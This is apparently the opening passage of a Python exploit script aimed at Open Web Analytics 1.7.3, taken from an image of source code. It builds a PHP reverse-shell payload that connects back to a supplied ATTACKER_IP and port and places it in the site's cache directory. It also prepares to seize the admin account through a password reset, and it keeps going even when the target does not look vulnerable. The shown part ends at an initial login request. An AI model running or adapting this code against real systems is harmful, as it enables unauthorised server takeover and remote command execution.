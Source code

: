 ```
parser.add_argument('TARGET', type=str, 
                  help='Target URL (Example: http://localhost/owa/ or https://victim.xyz:8000/)')
parser.add_argument('ATTACKER_IP', type=str, 
                  help='Address for reverse shell listener on attacking machine')
parser.add_argument('ATTACKER_PORT', type=str, 
                  help='Port for reverse shell listener on attacking machine')
parser.add_argument('-u', '--username', default="admin", type=str,
                  help='The username to exploit (Default: admin)')
parser.add_argument('-p','--password', default=get_random_string(32), type=str,
                  help='The new password for the exploited user')
parser.add_argument('-P','--proxy', type=str,
                  help='HTTP proxy address (Example: http://127.0.0.1:8080/)')
parser.add_argument('-c', '--check', action='store_true',
                  help='Check vulnerability without exploitation')

args = parser.parse_args()

base_url = get_normalized_url(args.TARGET)
login_url = base_url + "index.php?owa_do=base.loginForm"
password_reset_url = base_url + "index.php?owa_do=base.usersPasswordEntry"
update_config_url = base_url + "index.php?owa_do=base.optionsGeneral"

username = args.username
new_password = args.password

reverse_shell = '<?php $sock=fsockopen("' + args.ATTACKER_IP + '",'+ args.ATTACKER_PORT + ');$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>'
shell_filename = get_random_string(8) + '.php'
shell_url = base_url + 'owa-data/caches/' + shell_filename

if args.proxy:
   proxy_url = get_normalized_url(args.proxy)
   proxy_protocol = get_proxy_protocol(proxy_url)
   proxies = { proxy_protocol: proxy_url }
else:
   proxies = {}

session = requests.Session()

try:
   mainpage_request = session.get(base_url, proxies=proxies)
except Exception as e:
   print_message('Could not connect to "' + base_url, "ERROR")
   exit()
else:
   print_message('Connected to "' + base_url + '" successfully!', "SUCCESS")

if 'Open Web Analytics' not in mainpage_request.text:
   print_message('Could not confirm whether this website is hosting OWA! Continuing exploitation...', "WARNING")
elif 'version=1.7.3' not in mainpage_request.text:
   print_message('Could not confirm whether this OWA instance is vulnerable! Continuing exploitation...', "WARNING")
else:
   print_message('The webserver indicates a vulnerable version!', "ALERT")

try:
   data = {
      "owa_user_id": username, 
      "owa_password": username, 
      "owa_action": "base.login"
   }
   session.post(login_url, data=data, proxies=proxies)
```